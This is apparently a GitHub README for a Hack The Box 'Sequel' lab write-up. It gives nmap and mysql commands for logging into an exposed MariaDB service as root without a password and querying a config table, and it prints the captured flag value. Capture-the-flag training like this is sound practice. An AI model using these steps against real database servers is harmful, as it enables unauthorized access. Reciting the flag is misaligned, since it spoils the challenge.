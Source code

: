 # HTB “Sequel” MariaDB Exploit

Directly access the MariaDB service on the Sequel machine to enumerate and retrieve the flag.

## Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-sequel.git
cd obsidiansignal-htb-sequel
bash scripts/enum-mysql.sh 10.129.28.113
```

# Prerequisites
mysql-client (MariaDB or MySQL)

HTB VPN connection

# Repo Layout
writeup/ – Markdown & PDF report

scripts/enum-mysql.sh – Bash automation

screenshots/ – proof of each step

articles/ – Dev.to markdown

# Lab Steps
Scan: nmap -sC -sV -p3306 $IP

# Connect: mysql --ssl -h $IP -u root --skip-ssl

Enumerate:

SHOW DATABASES;
USE htb;
SHOW TABLES;
SELECT * FROM config;
Flag: 7b4bec00d1a39e3dd4e021ec3d915da8

# Connect

Dev.to: https://dev.to/keyfive5

Twitter: https://twitter.com/keyfive5

LinkedIn: [Linkedin](https://www.linkedin.com/in/mz-cs/)

“Looking for paid DB pentests or cloud‑infra security engagements? Let’s chat!”
